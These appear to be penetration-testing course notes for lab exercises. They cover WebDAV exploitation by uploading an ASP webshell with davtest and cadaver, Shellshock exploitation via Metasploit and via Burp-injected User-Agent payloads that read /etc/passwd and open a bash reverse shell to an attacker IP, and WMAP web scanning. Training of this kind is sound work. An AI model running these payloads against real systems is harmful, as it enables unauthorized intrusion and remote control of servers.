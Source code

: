 # Vulnerability Assessment

<br>

The Vulnerability Assessment course is designed for penetration testers and cybersecurity practitioners looking to enhance their ability to identify and evaluate security weaknesses in networks, applications, and systems. 

<br>

## 1. WebDAV Vulnerabilities

**Davtest is a WebDAV scanner** that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.
**Cadaver** is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

**Objective**: Exploit the WebDAV service and retrieve the flag!

The following username and password may be used to access the service:
- **Username**: bob
- **Password**: password_123321

```shell
nmap -Pn -A <target_IP>
nmap --script http-enum -sV -p 80 <target_IP>
# We have found the directory also received 401 error i.e Unauthorized.

davtest -url http://<target_IP>/webdav
# We can notice, /webdav path is secured with basic authentication. We have the credentials to access the /webdav path.

davtest -auth bob:password_123321 -url http://<target_IP>/webdav
# We can notice, we have uploaded almost all the important file types to the /webdav directory. Also, we can execute three types of files. i.e asp, text, and html.

# Upload the .asp backdoor on the target machine to /webdav directory using cadaver utility.
cadaver http://<target_IP>/webdav
# Enter credentials: bob:password_123321

# Uploading asp backdoor to the IIS web server in webdav directory.
put /usr/share/webshells/asp/webshell.asp
ls

# Access the backdoor using the Firefox browser and enter the credentials: bob:password_123321.
http://<target_IP>/webdav/webshell.asp

# Now we can access the web page  http://<address>/webshell.asp and run commands.
whoami
ipconfig
dir C:\
type C:\flag.txt
```

> `ls  -al /usr/share/webshells`
> - This directory contains webshells, which are scripts that allow remote access to a web server after being uploaded. 
> - Webshells are typically small scripts written in languages like PHP, ASP, JSP, or Python.
> - They are often used by attackers (or penetration testers) to gain remote access to a compromised web server.
> - Example Contents: PHP Webshells (for PHP-based servers), ASP Webshells (for ASP.NET/IIS servers), JSP Webshells (for Java-based servers).

<br>

## 2. Shellshock

**Shellshock** is a security vulnerability discovered in 2014 that affects the Unix Bash shell. It allows attackers to execute arbitrary code on a vulnerable system by exploiting how Bash handles environment variables, potentially leading to unauthorized access or control of the system. The Shellshock vulnerability affects **GNU Bash versions 1.14 through 4.3**, released prior to the discovery of the flaw in 2014.

**Objective**: Exploit the vulnerability and execute arbitrary commands on the target machine.

```shell
# Start Nmap and check if the target is vulnerable to Shellshock.
nmap -Pn -sV <target_IP>
curl <web_address>

# Check the line: xhttp.open("GET", "/gettime.cgi", true);
<address>/gettime.cgi
```

A **CGI file** (Common Gateway Interface) is a script or program executed by a web server to generate dynamic content, such as processing form input, generating web pages, or handling requests. These scripts can be written in various programming languages, like Perl, Python, PHP, or Bash. 

```shell
# We note the presence of the CGI script.: xhttp.open("GET", "/gettime.cgi", true);.
ls -al /usr/share/nmap/scripts | grep -e "shellshock"
nmap --script-help "*shellshock*"

# Visit: https://nmap.org/nsedoc/scripts/http-shellshock.html

# We check if the script is vulnerable to Shellshock.
nmap -sV --script http-shellshock --script-args uri=/gettime.cgi,cmd=ls <target_IP>
nmap -sV --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <target_IP>
```

**Exploit with Metasploit**

```shell
service postgresql start && msfconsole
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <target_IP>
set TARGETURI <path_to_CGI_script>
set LHOST <my_IP>
exploit
```

**Exploit with Burp**

```shell
# Activate the proxy using the extension in Firefox.
# Open BurpSuite > Proxy > Intercept is on.
# We are going to inject the special characters in User-Agent header.
# Send to the repeater.
User-Agent: () { :; } ; echo; echo; /bin/bash -c 'cat /etc/passwd'
# Click send.
# We can utilize bash to essencially connect to a listener on our Kali Linux. We can do this using netcat.
nc -nvlp <my-port-number>
User-Agent: () { :; } ; echo; echo; /bin/bash -c 'bash -i >& dev/tcp/<myIP>/<myPort> 0>&1'
# We should get a reversal on our netcat listener.
whoami
cat /etc/*issue
```

<br>

## 3. Scanning with WMAP

The **[WMAP](https://www.offsec.com/metasploit-unleashed/wmap-web-scanner/)** extension is typically used to automate the process of performing web server enumeration and also automates the process of identifying misconfigurations and vulnerabilities on a web server. This tool is integrated with Metasploit and allows us to conduct web application scanning from within the Metasploit Framework.

```shell
# STEP 1: In this case the target IP is my IP plus one
ifconfig

# STEP 2: Start Metasploit
# This launches the Metasploit Framework. Ensure PostgreSQL is running in the background.
service postgresql start && msfconsole

# STEP 3: Load the WMAP extension
# WMAP is used to perform web application assessments inside Metasploit.
load wmap

# STEP 4: Register the web application host
# This adds the target IP as a "site" for WMAP to analyze.
wmap_sites -a <target_IP>

# STEP 5: Add a specific URL as the scan target
# This defines the protocol + IP or domain for the actual scan.
wmap_targets -t http://<target_IP>

# STEP 6: Verify the sites and targets are loaded correctly
# These commands help ensure your setup is correct before running scans.
wmap_sites -l
wmap_targets -l

# STEP 7: Run passive site traversal
# This scans the site for links, pages, and parameters — like a crawler.
# It does NOT test for vulnerabilities, just maps the site.
wmap_run -t

# STEP 8: Run active vulnerability scan
# This performs actual vulnerability checks like XSS, SQLi, file upload issues, etc.
wmap_run -e
```

